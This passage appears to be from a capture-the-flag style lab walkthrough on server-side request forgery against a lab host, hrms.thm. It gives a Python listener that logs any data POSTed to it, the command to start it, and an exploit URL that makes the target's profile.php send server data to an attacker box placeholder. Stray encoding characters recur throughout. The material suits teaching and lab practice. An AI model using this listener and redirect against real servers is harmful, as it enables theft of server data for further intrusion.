 - Source code analysis of the page shows that it is readingÂ `url`Â parameters, and without performing any validation, it sends the information to the server mentioned in theÂ `url`Â parameter.Â 
- Here, an attacker can redirect the request to their server, thus getting additional information for exploitation or data pilferage.Â 
- On your AttackBox, create a new file calledÂ `server.py`Â and add the following code to it:  
    

server.py

```python
from http.server import SimpleHTTPRequestHandler, HTTPServer
from urllib.parse import unquote
class CustomRequestHandler(SimpleHTTPRequestHandler):

    def end_headers(self):
        self.send_header('Access-Control-Allow-Origin', '*')  # Allow requests from any origin
        self.send_header('Access-Control-Allow-Methods', 'GET, POST, OPTIONS')
        self.send_header('Access-Control-Allow-Headers', 'Content-Type')
        super().end_headers()

    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'Hello, GET request!')

    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length).decode('utf-8')

        self.send_response(200)
        self.end_headers()

        # Log the POST data to data.html
        with open('data.html', 'a') as file:
            file.write(post_data + '\n')
        response = f'THM, POST request! Received data: {post_data}'
        self.wfile.write(response.encode('utf-8'))

if __name__ == '__main__':
    server_address = ('', 8080)
    httpd = HTTPServer(server_address, CustomRequestHandler)
    print('Server running on http://localhost:8080/')
    httpd.serve_forever()
```

- The above code will receive all the content and save it to a file data.html on the server.Â To obtain the data, we first need to start a lightweight server. We can do this inÂ `AttackBox`Â by using the following commands:

```shell-session
thm@machine$ sudo chmod +x server.py && sudo python3 server.py
```

- Now open the browser and openÂ `http://hrms.thm/profile.php?url=http://ATTACKBOX_IP:8080`, which will log the data in theÂ `data.html`. Open theÂ `data.html`Â file, which contains all the essential information related to the server that can be used to launch further attacks.
